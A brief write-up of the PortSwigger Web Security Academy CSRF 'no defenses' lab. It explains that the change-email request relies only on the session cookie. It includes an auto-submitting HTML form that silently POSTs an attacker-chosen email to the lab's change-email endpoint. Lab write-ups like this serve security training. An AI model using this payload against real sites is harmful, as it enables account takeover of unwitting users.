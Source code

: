 https://portswigger.net/web-security/csrf/lab-no-defenses

As the change email functionality does not require major authentication that the user session. This means that if the user submit this request, the request will be with its session cookie, thereby the user will submit the request.
To do so we need to craft HTML, the following HTML is perfect because it autocatically send a post request to the server
```html
<html >
<body>
<form action="https://0a5f000203e9d29f80611245003a00d4.web-security-academy.net/my-account/change-email"  method="POST">
      <input type="hidden" name="email" value="pawned@portswigger.com" />
    </form>
    <script>
document.forms[0].submit() // submit our first form
    </script>
</body>
</html >
```
>the mail should be unique